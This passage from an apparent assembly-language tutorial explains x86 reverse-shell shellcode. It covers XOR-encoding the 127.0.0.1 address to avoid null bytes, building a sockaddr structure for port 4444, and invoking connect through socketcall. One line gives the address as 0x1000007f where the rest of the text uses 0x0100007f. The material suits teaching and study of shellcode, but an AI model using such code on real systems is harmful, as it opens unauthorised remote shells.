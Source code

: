 In the case of `0xffffffff`, all 32 binary bits are set to `1`. For `0xfeffff80`, each and every binary bit that _is not_ set to `1` in `0x0100007f` _is_ set to `1` in `0xfeffff80`. During the `XOR` operation, each bit in `EDI` (which contains `0xffffffff`) is compared to each bit in `ECX` (which contains `0xfeffff80`). As stated previously, the `XOR` operation will return `1` for each bit in the `ECX` destination register if and only if the compared bit values differ. Since all 32 bits _are_ set to `1` in `EDI`, and all bits that _are not_ set to `1` in `0x0100007f` _are_ set to `1` in `ECX`, the resulting value in `ECX` will be `0x0100007f`.

If `0x1000007f` represents the black within the `0x00000000` white of yin, then `0xfeffff80` is reflected as the equal-yet-opposite white within the `0xffffffff` black of yang. `0x1000007f` and `0xfeffff80` are opposite and complementary to one another as `0x00000000` and `0xffffffff` are. 

#### IP Socket Address Structure
_Note from the author:_ This section is identical to the section of the same name from the explanation of a TCP bind shell with the exception of the `127.0.0.1` address pushed through `ECX` as opposed to the `0.0.0.0` address pushed through `EDX`.

Next, the IP socket address structure defined in the C program as `addr` is saved in memory. To accomplish this, the items will be stored on the stack using the `PUSH` instruction. 

```nasm
; Create an IP Socket Address Structure
; struct sockaddr_in addr;
push ecx            ; inet_aton("127.0.0.1", &addr.sin_addr);
push word 0x5c11    ; addr.sin_port = htons(4444);
push word 0x2       ; addr.sin_family = 2 = AF_INET;
mov ecx, esp        ; pointer to struct sockaddr_in addr;
```

First, the items are pushed to the stack in reverse order. Then, the memory address pointing to the item last pushed to the stack (which is contained in the `ESP` register) is moved to the `ECX` register to later be used as the second argument for `connect`.

#### Socketcall: Connect System Call
With the memory address of the defined IP socket address structure stored in `ECX` and the socket file descriptor (`sockfd`) stored in `EBX`, the call to `connect` can now be prepared and executed. As the `socketcall` system call will again be used to call `connect`, the process for preparing the arguments for `connect` and for `socketcall` will be similar to the process outlined in the "Socketcall: Socket" section.

```nasm
; Connect TCP Socket to IP Socket Address Structure
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
; connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));
push 0x10           ; 16 = sizeof(addr)
push ecx            ; (struct sockaddr *)&addr
push ebx            ; sockfd
```

First, the arguments for `connect` are stored on the stack in reverse order using the `PUSH` instruction. This time, the arguments stored on the stack consist of an integer that represents the size of `addr`, a pointer (memory address) to the location of the `addr` structure in memory, and the file descriptor returned by the `socket` function.

```nasm
; int socketcall(int call, unsigned long *args);
mov ecx, esp        ; *args
mov al, 0x66        ; socketcall   
int 0x80            ; returns 0 in eax
```
